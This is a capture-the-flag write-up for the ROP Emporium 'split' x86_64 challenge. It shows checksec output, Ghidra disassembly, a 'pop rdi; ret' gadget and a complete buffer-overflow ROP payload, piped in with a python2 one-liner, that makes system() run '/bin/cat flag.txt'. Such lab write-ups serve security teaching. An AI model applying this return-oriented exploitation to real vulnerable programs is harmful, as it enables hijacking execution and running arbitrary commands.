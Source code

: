 ### split x86_64
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction.

First, check the binarat security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x20 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
00400746 bf 4a 08        MOV        EDI=>s_/bin/ls_0040084a,s_/bin/ls_0040084a       = "/bin/ls"
         40 00
0040074b e8 10 fe        CALL       system                                           int system(char * __command)
         ff ff
...
```
Therefore, need to modify the command in the syscall, try to assign "/bin/cat flag.txt" to the register edi(x86 64 first argument)(edi 32bit, rdi 64bit).

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
00601060 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x00601060.

Now, we need to find a instruction such as "pop rdi" or "pop edi" with ret to assign this address to edi register.

Use rop command in peda-gdb.
```
...
0x00000000004007c3 : pop rdi ; ret
...
```
We find a gadget which exactly we want.

Then, we can construct our rop overflow strings.

Same as ret2win, buffer size is 0x20, and a rbp address, so the strings should be:

```
strings = 'A'*32(32 bytes) + rbp(8 bytes) = 'A' * 40 //overflow 0x20 buffer and rbp register
```
Next, the process should return to the gadget we found before, which will be:
```
'\xc3\x07\x40\x00\x00\x00\x00\x00' //return address jump to the gadget we want. In this case is, pop rdi; ret;
```
Then, we need to push the "/bin/cat flag.txt" address into stack, which will be pop into edi register later:
```
'\x60\x10\x60\x00\x00\x00\x00\x00' //the value we want to pop into edi register. In this case is the address of string "/bin/cat flag.txt".
```
Now, we successfully assign the command we want into the edu register, we can return to the syscall place to executer syscall.
```
'\x4b\x07\x40\x00\x00\x00\x00\x00' //return address jump to the syscall. It will execute the command we assign to rdi.
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument in edi will be modified to "/bin/ls" again. 

The overflow string will be:
```
'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with input:
```
python2 -c "print 'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'" | ./split
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
